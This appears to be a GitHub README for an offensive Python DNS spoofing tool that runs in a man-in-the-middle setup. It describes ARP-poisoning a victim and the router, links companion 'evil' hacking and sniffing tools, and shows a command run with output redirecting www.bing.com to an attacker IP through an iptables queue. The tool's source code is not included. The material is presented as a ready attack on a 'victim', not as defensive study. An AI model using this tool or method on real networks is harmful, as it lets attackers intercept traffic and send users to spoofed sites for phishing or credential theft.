



## DNS Spoofing Attack under MitM environment

For use this tool you must work under MitM environment, in taht case,
on the one hand we posioned the target_ip(victim) with our mac addres instead of 
router mac address and in the other hand posinoed  the router ip with our mac addres instead of target ip mac address:

You automatically recreate this enviromnet on your network with this tool:
https://github.com/f0ns1/evilHackingPythonTool

You can sniff the FORWARD network traffic of your victim using this script(but isn't mandatory for exploit a DNS Spoofing attack):
https://github.com/f0ns1/evilSImpleSnifferPython

# Run attack 

    root@kali:~/PycharmProjects/mitm_process.py# python dns_spoofing.py -o "www.bing.com" -d "10.0.2.15"
    init attack ....DNS 
    Enable Iptables queue for input target packets ... on queue number 0
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    [+] spoofing target ---> www.bing.com. to 10.0.2.15
    ^C[*] CRTL +C Detecting ... Flush queue for Iptables on local machine 
    [*] End program 

## User Access to spoofing domain: -o "www.bing.com" -d "10.0.2.15"

## dependencies

    netfilterqueue
    subprocess
    optparse
